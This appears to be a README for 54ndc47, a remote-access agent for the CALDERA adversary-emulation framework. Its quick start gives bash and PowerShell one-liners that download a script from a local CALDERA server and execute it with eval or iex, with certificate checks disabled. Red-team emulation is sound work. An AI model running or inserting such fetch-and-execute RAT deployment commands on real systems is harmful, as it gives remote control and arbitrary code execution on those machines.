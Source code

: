 # 54ndc47

54ndc47 is an in-memory agent - or remote access trojan (RAT) - which connects to
CALDERA via HTTP. Once connected, it registers itself as an agent and periodically
asks for instructions on what to do next. Instructions are in the form of an encoded
shell command. 

## Quick start

Start the agent on a Linux or OSX box with either of the bash commands below. Note, the second 
command attaches a group (for example, named 'client') to the agent when it first registers.

```
eval "$(curl -sk -X POST -H "file:54ndc47.sh" https://localhost:8888/file/render)"
eval "$(curl -sk -X POST -H "file:54ndc47.sh" https://localhost:8888/file/render?group=client)"
```

Similarly, you can start the agent on Windows machine with either of the following:

These commands are more verbose then the bash ones because they dynamically accommodate all versions of 
PowerShell, from 3.0+. 

```
$url="https://localhost:8888/file/render"; $ps_table = $PSVersionTable.PSVersion;If([double]$ps_table.Major -ge 6){iex (irm -Method Post -Uri $url -Headers @{"file"="54ndc47.ps1"} -SkipCertificateCheck);}else{[System.Net.ServicePointManager]::ServerCertificateValidationCallback={$True};$web=New-Object System.Net.WebClient;$web.Headers.Add("file","54ndc47.ps1");$resp=$web.UploadString("$url",'');iex($resp);}
$url="https://localhost:8888/file/render?group=client"; $ps_table = $PSVersionTable.PSVersion;If([double]$ps_table.Major -ge 6){iex (irm -Method Post -Uri $url -Headers @{"file"="54ndc47.ps1"} -SkipCertificateCheck);}else{[System.Net.ServicePointManager]::ServerCertificateValidationCallback={$True};$web=New-Object System.Net.WebClient;$web.Headers.Add("file","54ndc47.ps1");$resp=$web.UploadString("$url",'');iex($resp);}
```

## Operating systems

Currently, 54ndc47 will run on any Linux, OSX or Windows machine.

